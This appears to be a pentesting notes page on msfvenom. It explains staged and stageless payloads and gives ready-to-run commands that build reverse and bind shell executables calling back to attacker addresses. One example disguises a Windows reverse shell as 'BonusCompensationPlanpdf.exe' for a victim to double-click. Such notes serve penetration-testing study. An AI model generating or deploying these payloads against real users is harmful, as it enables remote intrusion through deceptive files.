

repository: amandaguglieri/hackinglife · page: msfvenom/index.html · generator: mkdocs

---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
# msfvenom

MSFVenom is the successor of MSFPayload and MSFEncode, two stand-alone scripts that used to work in conjunction with msfconsole to provide users with highly customizable and hard-to-detect payloads for their exploits.

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  

# list all the available payloads
msfvenom -l payloads  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```


## Some flags

```bash
# -b, or --bad-chars: The list of characters to avoid example: '0'

```

## Single  payload
`Singles` are self-contained payloads. Some exploits will not support the resulting size of these payloads as they can get quite large.

## Staged payload

```bash
# Example of a linux staged payload
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile

# Example of a windows staged payload
msfvenom -p windows/x64/meterpreter/bind_tcp lhost=10.10.14.72 lport=1234 -f aspx -o lala
```


After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything adittional (no metasploit connection), just the netcat listener on the computer.

```bash
# Example of a windows stageless payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.
